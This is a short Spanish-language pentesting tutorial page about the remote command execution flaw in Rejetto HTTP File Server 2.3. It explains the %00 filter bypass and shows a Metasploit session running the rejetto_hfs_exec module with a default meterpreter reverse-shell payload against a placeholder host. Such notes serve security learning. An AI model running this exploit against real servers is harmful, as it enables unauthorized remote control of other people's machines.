

# HTTP File Server

**HTTP File Server (HFS)** es un servidor web diseñado para el intercambio de archivos y documentos. Normalmente se ejecuta en el puerto TCP 80 y utilizan el protocolo HTTP para la comunicación.

Rejetto HFS es un servidor de archivos HTTP popular, gratuito y de código abierto que puede configurarse tanto en Windows como en Linux. Su versión 2.3 es vulnerable a un ataque de ejecución remota de comandos.

### Enumeración

Podemos detectarlo con un escaneno de nmap.



### Explotación con `rejetto_hfs_exec`

**Rejetto HttpFileServer (HFS)** es vulnerable a ataques de ejecución remota de comandos debido a una expresión regular deficiente en el archivo ParserLib.pas. Este módulo explota los comandos de scripting de HFS mediante el uso de '%00' para eludir el filtrado. Este módulo funciona en HFS 2.3b en Windows XP SP3, Windows 7 SP1 y Windows 8.

```bash
msf > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/rejetto_hfs_exec) > set rhosts <IP>
msf exploit(windows/http/rejetto_hfs_exec) > run
```

[⟵ Anterior](../05_sistema.md#explotación-windows)
